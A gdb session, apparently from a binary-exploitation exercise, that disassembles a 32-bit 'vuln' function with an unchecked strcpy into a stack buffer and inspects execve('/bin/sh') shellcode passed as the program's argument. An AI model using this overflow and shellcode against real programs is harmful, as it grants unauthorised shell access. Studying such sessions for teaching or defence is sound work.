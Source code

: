 ```sh
(gdb) p $ebp-0xc
$2 = (void *) 0xffffcf6c
(gdb) ni
19      in silly.c
(gdb) ds
Dump of assembler code for function vuln:
   0x080491ec <+0>:     push   ebp
   0x080491ed <+1>:     mov    ebp,esp
   0x080491ef <+3>:     push   ebx
   0x080491f0 <+4>:     sub    esp,0x34
   0x080491f3 <+7>:     call   0x80490d0 <__x86.get_pc_thunk.bx>
   0x080491f8 <+12>:    add    ebx,0x2dfc
   0x080491fe <+18>:    mov    DWORD PTR [ebp-0xc],0x0
   0x08049205 <+25>:    sub    esp,0x8
   0x08049208 <+28>:    push   DWORD PTR [ebp+0xc]
   0x0804920b <+31>:    lea    eax,[ebp-0x2c]
   0x0804920e <+34>:    push   eax
   0x0804920f <+35>:    call   0x8049050 <strcpy@plt>
   0x08049214 <+40>:    add    esp,0x10
=> 0x08049217 <+43>:    jmp    0x8049239 <vuln+77>
   0x08049219 <+45>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0804921c <+48>:    lea    edx,[eax+0x1]
   0x0804921f <+51>:    mov    DWORD PTR [ebp-0xc],edx
   0x08049222 <+54>:    sub    esp,0x4
   0x08049225 <+57>:    lea    edx,[ebp-0x2c]
   0x08049228 <+60>:    push   edx
   0x08049229 <+61>:    push   eax
   0x0804922a <+62>:    lea    eax,[ebx-0x1fc3]
   0x08049230 <+68>:    push   eax
   0x08049231 <+69>:    call   0x8049040 <printf@plt>
   0x08049236 <+74>:    add    esp,0x10
   0x08049239 <+77>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0804923c <+80>:    cmp    eax,DWORD PTR [ebp+0x8]
   0x0804923f <+83>:    jl     0x8049219 <vuln+45>
   0x08049241 <+85>:    nop
   0x08049242 <+86>:    nop
   0x08049243 <+87>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x08049246 <+90>:    leave
   0x08049247 <+91>:    ret
End of assembler dump.
(gdb) x/x $ebp+0xc
0xffffcf84:     0xffffd29d
(gdb) x/x $ebp-0xc
0xffffcf6c:     0x732f6e69
(gdb) x/16i 0x732f6e69
   0x732f6e69:  Cannot access memory at address 0x732f6e69
(gdb) x/16i 0xffffd29d
   0xffffd29d:  jmp    0xffffd2b6
   0xffffd29f:  pop    esi
   0xffffd2a0:  xor    eax,eax
   0xffffd2a2:  push   eax
   0xffffd2a3:  push   esi
   0xffffd2a4:  xor    edx,edx
   0xffffd2a6:  mov    al,0xb
   0xffffd2a8:  mov    ebx,esi
   0xffffd2aa:  mov    ecx,esp
   0xffffd2ac:  int    0x80
   0xffffd2ae:  xor    eax,eax
   0xffffd2b0:  mov    al,0x1
   0xffffd2b2:  xor    ebx,ebx
   0xffffd2b4:  int    0x80
   0xffffd2b6:  call   0xffffd29f
   0xffffd2bb:  das
```